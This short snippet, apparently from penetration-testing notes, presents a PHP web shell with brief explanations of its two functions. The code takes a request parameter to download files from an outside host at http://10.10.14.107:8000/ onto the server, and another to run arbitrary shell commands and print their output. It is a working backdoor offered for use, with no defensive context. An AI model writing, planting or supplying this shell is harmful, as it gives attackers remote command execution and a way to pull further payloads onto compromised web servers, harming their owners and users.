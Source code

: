 ## PHP Shell
*fupload* function is used to upload files to the remote machine\
*fexec* function is used to execute commands on the remote machine
```
<?php 
 if (isset($_REQUEST['fupload'])) {
 file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.107:8000/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['fexec'])) {
 echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
 };
?>
```
